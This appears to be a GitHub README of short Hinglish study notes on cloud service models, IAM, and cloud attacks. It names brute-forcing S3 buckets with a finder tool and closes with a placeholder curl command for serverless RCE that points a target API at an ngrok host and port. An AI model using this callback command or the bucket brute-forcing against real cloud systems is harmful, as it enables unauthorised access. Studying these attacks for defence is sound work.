 
# Cloud-Computing-module-iaas-paas-saas

Infrastructure as a Service (IaaS) = hardware rack cables ye sab cloud provider manages krega or OS software ye sab client manage krega

Platform as a Service (PaaS) = hardware rack cables ke sath sath OS Software ye sab cloud provider manages krega or client yaha per un software ko install khud krega

Software as a Service (SaaS) = In this situation everything will be managed by cloud provider, But coustmer pauy krega or services ko use krega

Cloud type = Public , hybrid , private

========================================================================================================================================================================================

# Identity-and-Access-Management-(IAM)

Identity and Access Management (IAM) = the main consept of IMA is Role-Based Access, kis user ko kya role dena hai or us role se related konse group provide krna hai, For example if i created 2 group one for HR and 2nd one is sales department then HR manager can not acees sales departemert 

***attack type idor , privillage etc***

==========================================================================================================================================================================================

# Security Misconfig attack
***We can use s3 bucket finder tool, For brute force s3 bucket and AWS CLI tool for find security misconfig attack***

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# serverless architecture attack RCE

***curl "https://domain/api/panther?host=ngrock&port=port-numer" -H 'x-api-key: valuehere'***

